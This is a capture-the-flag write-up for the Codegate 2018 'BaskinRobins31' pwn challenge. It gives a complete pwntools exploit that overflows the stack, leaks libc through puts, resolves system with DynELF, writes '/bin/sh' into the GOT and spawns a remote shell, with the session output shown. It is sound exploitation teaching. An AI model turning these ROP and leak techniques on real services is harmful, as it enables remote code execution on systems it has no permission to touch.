 ```yaml
---
layout: post
category: Pwn
title: Codegate CTF 2018 Preliminary BaskinRobins31
tags: 
    - kowu
---
```


We were only provided with a x64 binary (no pic). It included an obvious overflow, allowing us to rop our way to the flag :) I could not find the used libc version (ok, i havent searched that hard), so I used pwnlibs DynELF Module. I wrote this writeup mainly to demonstrate the power of the DynELF Module in case you only have memory leaks at hand.

About the exploit there is not that much to say. We have `puts` (for reading memory) and `read` (for writing memory). At the end of every ropchain I jump back to the `entrypoint`, effectively "restoring" the stack and allowing further exploitation. All gadgets were found with radares "/R/ ..." utility. 


The plan is as follows:
- leak a pointer into libc by reading address at GOT (needed by DynELF)
- find out the address of system with the help of DynELF
- write "/bin/sh" into unused GOT space
- execute system("/bin/sh")
- profit

Now lean back and let DynELF do the work :D
```python
from pwn import *

r = remote("ch41l3ng3s.codegate.kr", 3131)


def leakat(addr):
    ropchain = struct.pack("<QQ", 0x00400bc3, addr)  # [pop rdi; ret;][addr]
    ropchain += struct.pack("<Q", 0x004006c0)  # [puts]
    ropchain += struct.pack("<Q", 0x00400780)  # entrypoint

    r.sendline("A" * 0xb8 + ropchain)
    r.recvuntil("Don't break the rules...:( \n")
    leak = r.recvuntil("###")[:-4]
    return leak + "\x00"


def pwn():
    libcptr = leakat(0x00602028)  # points into got
    libcptr = libcptr + "\x00" * (8 - len(libcptr))
    libcptr = struct.unpack("<Q", libcptr)[0] - 0xf6000  # subtract offset for speedup
    d = DynELF(leakat, libcptr)
    systemaddr = d.lookup('system')

    # write "/bin/sh\x00" to 0x006020b8 (writeable and unused address)
    log.info("writing \"/bin/sh\" into got")
    ropchain = struct.pack("<QQQQ", 0x0040087a, 0, 0x006020b8, 8)  # [pop rdi; pop rsi; pop rdx; ret][stdin][rw@got][8]
    ropchain += struct.pack("<Q", 0x00400700)  # [read]
    ropchain += struct.pack("<Q", 0x00400780)  # entrypoint
    r.sendline("A" * 0xb8 + ropchain)
    r.send("/bin/sh\x00")
    r.recvuntil("Don't break the rules...:( \n")

    # triggering shell
    log.info("triggering system(\"/bin/sh\")")
    ropchain = struct.pack("<QQ", 0x00400bc3, 0x006020b8)  # [pop rdi; ret;]["/bin/sh"]
    ropchain += struct.pack("<Q", systemaddr)  # [system]
    r.sendline("A" * 0xb8 + ropchain)
    r.recvuntil("Don't break the rules...:( \n")
    r.interactive()


if __name__ == '__main__':
    pwn()
```
In the end, there is profit of course.
```
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[+] Finding base address: 0x7fa507ba4000
[+] Resolving 'system': 0x7fa50818f000
[*] writing "/bin/sh" into got
[*] triggering system("/bin/sh")
[*] Switching to interactive mode
$ whoami
player
$ ls
BaskinRobins31
flag
$ cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
```
